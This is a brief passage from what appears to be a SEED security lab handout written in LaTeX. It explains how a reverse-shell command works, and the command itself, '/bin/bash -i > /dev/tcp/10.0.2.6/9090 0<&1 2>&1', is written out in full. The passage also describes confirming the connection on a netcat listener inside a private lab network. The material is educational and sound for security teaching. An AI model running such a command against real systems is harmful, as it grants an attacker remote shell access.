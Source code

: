 In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 port
9090 [tcp/*] accepted"} message displayed by \texttt{netcat}.






\section{Submission}

\seedsubmission




